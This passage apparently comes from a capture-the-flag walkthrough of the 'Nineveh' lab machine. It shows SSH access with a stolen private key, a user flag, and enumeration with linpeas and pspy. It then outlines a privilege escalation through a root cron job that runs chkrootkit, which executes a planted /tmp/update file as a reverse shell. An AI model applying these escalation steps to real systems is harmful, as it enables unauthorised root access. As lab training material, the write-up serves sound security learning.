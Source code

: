 
  Transfer the private key to the victim machine, and ssh internally.

    www-data@nineveh:/dev/shm$ ssh amrois@127.0.0.1 -i nineveh.priv
    amrois@nineveh:~$ whoami
      amrois
    amrois@nineveh:~$ cat user.txt
      82b21cf2928d940081bf79b85edcc26c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Running linpeas.sh we can see that the PATH is changed, where /home/amrois is at the beginning.

  [+] PATH
  /home/amrois/bin:/home/amrois/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
  New path exported: /home/amrois/bin:/home/amrois/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

  And a cron job running a script.

    [+] Cron jobs
    # m h  dom mon dow   command
    */10 * * * * /usr/sbin/report-reset.sh

  amrois@nineveh:/dev/shm$ cat /usr/sbin/report-reset.sh
    cat /usr/sbin/report-reset.sh
    #!/bin/bash

    rm -rf /report/*.txt

  Guessing from that script, something should be writing reports to /report on a regular basis. Upload pspy64 to see what service
  and if we can exploit it.

  2021/02/25 10:57:03 CMD: UID=0    PID=863    | /bin/sh /usr/bin/chkrootkit
  2021/02/25 10:57:03 CMD: UID=0    PID=862    | /bin/sh /usr/bin/chkrootkit
  2021/02/25 10:57:03 CMD: UID=0    PID=867    | /bin/sh /usr/bin/chkrootkit
  2021/02/25 10:57:03 CMD: UID=0    PID=866    | /bin/sh /usr/bin/chkrootkit


2. Reading more about chkrootkit we find a major vulnerability - it there is a executable file named 'update' in /tmp/ chkrootkit
   will execute it, as root. Since the cron job automatically triggers chkrootkit, this will be our path to root.

   Create a reverse shell named 'update' in /tmp/, give it execute privs and with for incomming root shell.
